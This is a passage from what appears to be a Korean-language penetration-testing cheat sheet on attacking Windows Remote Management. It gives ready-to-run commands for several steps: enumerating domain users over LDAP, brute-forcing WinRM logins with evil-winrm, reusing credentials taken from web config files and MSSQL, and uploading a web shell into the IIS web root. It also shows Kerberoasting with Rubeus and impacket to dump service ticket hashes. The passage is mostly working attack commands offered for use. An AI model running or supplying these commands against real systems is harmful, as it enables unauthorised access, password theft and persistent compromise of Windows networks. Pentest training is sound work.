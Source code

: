 ### 🏢 Active Directory와 연계

```bash
# LDAP에서 수집한 도메인 사용자로 WinRM 접근
ldapsearch -x -h {IP} -b "DC=domain,DC=com" "(objectClass=user)" sAMAccountName | grep sAMAccountName | cut -d: -f2 > domain_users.txt

# 도메인 사용자로 WinRM 브루트포스
while read user; do
    evil-winrm -i {IP} -u {DOMAIN}\\$user -p password -e "whoami" 2>/dev/null
done < domain_users.txt
```

### 🌐 웹 애플리케이션과 연계

```bash
# 웹 애플리케이션에서 발견한 크레덴셜로 WinRM 시도
# config 파일에서 발견한 Windows 계정 정보 활용
evil-winrm -i {IP} -u {WEB_DISCOVERED_USER} -p {WEB_DISCOVERED_PASS}

# WinRM을 통해 웹쉘 업로드
upload webshell.aspx C:\inetpub\wwwroot\shell.aspx
```

### 🗄️ 데이터베이스와 연계

```bash
# MSSQL에서 수집한 Windows 인증 정보로 WinRM 접근
# xp_cmdshell에서 수집한 정보 활용
evil-winrm -i {IP} -u {MSSQL_SERVICE_USER} -p {PASSWORD}
```

---

## 🛠️ 고급 WinRM 공격 기법

### 🎭 Kerberoasting (도메인 환경)

```bash
# WinRM 접근 후 Kerberos 공격
# PowerShell 세션 내에서:
Add-Type -AssemblyName System.IdentityModel
setspn -T {DOMAIN} -Q */*

# Rubeus 사용 (업로드 후)
upload Rubeus.exe C:\temp\Rubeus.exe
C:\temp\Rubeus.exe kerberoast /outfile:C:\temp\hashes.txt

# impacket GetUserSPNs (로컬에서)
impacket-GetUserSPNs {DOMAIN}/{USERNAME}:{PASSWORD} -dc-ip {DC_IP}
```

### 🔍 WinRM 로그 분석 (접근 후)
